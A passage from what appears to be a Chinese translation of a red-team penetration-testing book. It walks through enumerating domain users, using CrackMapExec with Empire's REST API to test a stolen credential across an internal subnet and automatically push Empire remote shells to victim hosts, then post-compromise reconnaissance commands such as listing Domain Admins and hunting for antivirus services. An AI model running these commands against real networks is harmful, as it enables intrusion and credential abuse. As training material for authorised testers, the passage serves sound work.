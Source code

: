 我们将需要提供一个要测试的用户名列表，但是由于我们只是查询 DC（域控制器）而没有对其进行身份验证，因此通常此行动不会被检测。现在，我们可以采用这些用户帐户，并再次开始密码猜解!

## 使用 CrackMapExec（CME）扫描网络

如果我们还没有成功入侵进一个系统，但是我们确实通过 Responder、错误配置的 Web 应用程序、暴力破解或通过打印机获得了登录凭证，那么我们可以尝试扫描网络，看看这个帐户可以登录到哪里。使用像 CrackMapExec（CME）这样的工具进行简单的扫描可以帮助找到内部网络上的初始入口点。

过去，我们使用 CME 扫描网络、通过网络上的 SMB 进行标识/身份验证、对许多主机远程执行命令，甚至通过 Mimikatz 提取明文凭证。Empire 和 CME 都拥有了一些新特性，我们可以利用 Empire 的 REST 特性。在下面的场景中，我们将使用其 REST API 启动 Empire，在 CME 中配置密码，让 CME 连接到 Empire，使用我们拥有的单一凭证扫描网络，最后，如果成功完成身份验证，则自动将 Empire 的 payload 推送到远程受害者的系统。如果你有一个 helpdesk 或高权限帐户，那就准备好加载 Empire shell 吧！

- 启动 Empire 的 REST API 服务器
  - cd /opt/Empire
  - ./empire --rest --password ‘hacktheuniverse’
- 更改 CrackMapExec 密码
  - 打开 /root/.cme/cme.conf
  - password=hacktheuniverse
- 运行 CME 来生成 Empire shells
  - cme smb 10.100.100.0/24 -d ‘cyberspacekittens.local’ -u ‘<username>’ -p ‘<password>’ -M empire_exec -o LISTENER=http

![](img/4-10.png)

![](img/4-11.png)

## 在攻陷你的第一台机器之后

当你通过社会工程、drop box、Responder、攻击打印机或通过其他攻击获得对主机的访问权限后，下一步要做什么？这是一个非常重要的问题。

在过去，你需要做的一切，是了解你身在何处和周边的网络环境。我们可能首先运行类似于“netstat -ano”的命令来查找受害者的服务器、域和用户的 IP 范围的位置。我们还可以运行命令，如 `ps` 或 `sc queryex type= service state= all | find  “_NAME”` 列出所有正在运行的服务，并寻找杀毒软件或其他主机基础保护。下面是一些我们最初可能运行的其他示例命令：

网络信息:

- netstat -anop | findstr LISTEN
- net group “Domain Admins” /domain
